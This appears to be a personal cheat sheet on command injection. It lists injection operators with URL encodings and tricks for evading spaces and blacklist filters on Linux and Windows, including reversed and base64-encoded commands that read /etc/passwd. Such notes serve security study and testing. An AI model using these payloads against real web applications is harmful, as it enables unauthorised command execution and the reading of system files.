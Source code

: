 # Command Injection Notes

If some type of functionality is given with input we can enter try to abuse, like in the case of a website with a ping checker.

## Cheat sheets

Injection Operators
|Injection Operator|	Injection Character |	URL-Encoded Character 	|Executed Command|
|:----|:----|:----|:----|
|Semicolon |	; 	|%3b |	Both|
|New Line| 	\n |	%0a 	|Both|
|Background| 	& 	|%26 	|Both (second output generally shown first)|
|Pipe 	| 	%7c 	|Both |(only second output is shown)|
|AND 	|&& 	|%26%26 	|Both (only if first succeeds)|
|OR 	|\|\| |	%7c%7c| 	Second (only if first fails)|
|Sub-Shell |	`` 	|%60%60 	|Both (Linux-only)|
|Sub-Shell| 	$() 	|%24%28%29 	|Both (Linux-only)|

## Linux
|Code| 	Description|
|:----|:----|
|printenv 	|Can be used to view all environment variables|

### Spaces 	
|Code| 	Description|
|:----|:----|
|%09 	|Using tabs instead of spaces|
|${IFS} 	|Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. $())|
|{ls,-la} 	|Commas will be replaced with spaces|

### Other Characters 	
|Code| 	Description|
|:----|:----|
|${PATH:0:1} |	Will be replaced with / |
|${LS_COLORS:10:1} 	|Will be replaced with ;|
|$(tr '!-}' '"-~'<<<[) 	|Shift character by one ([ -> \)|

### Blacklisted Command Bypass

### Character Insertion 	
|Code| 	Description|
|:----|:----|
|' or " 	|Total must be even|
|$@ or \ 	|Linux only|

### Case Manipulation 	
|Code| 	Description|
|:----|:----|
|$(tr "[A-Z]" "[a-z]"<<<"WhOaMi") |	Execute command regardless of cases|
|$(a="WhOaMi";printf %s "${a,,}") 	|Another variation of the technique|

### Reversed Commands 	
|Code| 	Description|
|:----|:----|
|echo 'whoami' \| rev |	Reverse a string|
|$(rev<<<'imaohw') 	|Execute reversed command|

### Encoded Commands 	
|Code| 	Description|
|:----|:----|
|echo -n 'cat /etc/passwd \| grep 33' \| base64 	|Encode a string with base64|
|bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)| 	Execute b64 encoded string|

## Windows
|Code| 	Description|
|:----|:----|
|Get-ChildItem Env: 	|Can be used to view all environment variables - (PowerShell)|

### Spaces 	
|Code| 	Description|
|:----|:----|
|%09 	|Using tabs instead of spaces|
|%PROGRAMFILES:~10,-5% |	Will be replaced with a space - (CMD)|
|$env:PROGRAMFILES[10] |	Will be replaced with a space - (PowerShell)|

### Other Characters 	
|%HOMEPATH:~0,-17% 	|Will be replaced with \ - (CMD)|
|$env:HOMEPATH[0] |	Will be replaced with \ - (PowerShell)|
